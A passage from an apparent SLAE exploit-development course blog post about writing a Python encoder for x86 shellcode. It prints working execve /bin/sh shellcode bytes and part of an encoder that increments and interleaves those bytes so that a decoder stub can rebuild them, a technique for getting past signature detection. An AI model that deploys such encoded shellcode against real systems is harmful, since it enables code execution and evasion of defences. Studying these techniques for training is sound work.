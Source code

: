 ### Python encoded shellcode generator:

At last, we will create a python script to encode our shellcode and generate a decoder shellcode. To do so, we will need to study our shellcode.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex4-6.JPG"/>

From ndisasm output, we know that we will need to modify the value of 8D7E0D and B10D. Also, we will need to append our shellcode to the end of the decoder.

```python
import os

#execve-stack shellcode that execute /bin/sh
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded = ""
encodedP2 = ""
encoded2 = ""
encoded2P2 = ""
count = 1

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
	x += 1
	if count % 2 != 0:
		encoded += '\\x'
		encoded += '%02x' % x
	else:
		encodedP2 += '\\x'
		encodedP2 += '%02x' % x
	count += 1

encoded =  encoded + encodedP2
```
